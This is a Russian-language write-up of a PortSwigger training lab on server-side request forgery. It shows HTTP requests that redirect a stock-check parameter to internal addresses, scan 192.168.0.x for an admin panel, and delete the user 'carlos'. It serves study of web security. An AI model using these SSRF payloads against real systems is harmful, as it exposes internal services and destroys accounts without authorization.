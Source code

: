 ```yaml
---
title: "Basic SSRF against another back-end system"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-backend-system"
classes: wide
---
```

{% raw %}
Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Для прохождения лабы нам нужно найти `ip`-адрес бекенд сервиса, на котором расположена панель администратора `/admin` на порту `8080`, а затем удалить пользователя `carlos`.

Мы знаем, что адрес сервиса начинается с `192.168.0.X` и располагается на порту `8080`.

```
https://0a8c001c03be57138111448800b200f6.web-security-academy.net/
```

## Solution

```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

Подставим предполагаемый адрес в параметр `stockApi`:

```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://192.168.0.1:8080/admin
```

Получили ответ:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 19

"Missing parameter"
```

Теперь нужно перебрать значения от `2` до `255`, пока не получим код `200`. Для этого можно использовать `Intruder` в `Burp Suite`.

Перебором `ip` адресов я нашел, что нужный нам — это `192.168.0.53`. Получим код страницы с админ панелью с помощью запроса на адрес `http://192.168.0.53:8080/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/1.jpg){: height="200" .align-center}

Для удаления пользователя отправим запроса на адрес `http://192.168.0.53:8080/admin/delete?username=carlos` и затем проверим ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/2.png){: height="200" .align-center}
{% endraw %}
